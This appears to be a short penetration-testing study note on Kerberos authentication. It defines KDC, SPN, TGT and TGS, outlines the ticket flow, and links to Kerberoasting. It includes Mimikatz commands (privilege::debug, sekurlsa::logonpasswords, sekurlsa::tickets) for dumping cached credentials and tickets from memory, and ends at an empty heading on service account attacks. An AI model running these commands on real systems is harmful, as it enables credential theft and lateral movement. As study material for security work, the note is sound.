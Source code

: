 # Kerberos Authentication
KDC -> Key distribution center
SPN -> Service principal name
TGT -> Ticket granting ticket
TGS -> Ticket granting service

Kerberos is stateless.
- Client negotiates authentication using encrypted timestamp with key distribution center
- Client requests TGT to KDC
- Client receives TGT from KDC
- Client requests TGS using TGT and SPN of service
- Client receives TGS for service

To do this automatically:
- [[Kerberoasting]]

## Cached credential storage and retrieval
Mimikatz.exe can be used to achieve this
```
mimikatz.exe
mimikatz # privilege::debug
mimikatz # sekurlsa::logonpasswords
mimikatz # sekurlsa::tickets

```

## Service Account Attacks
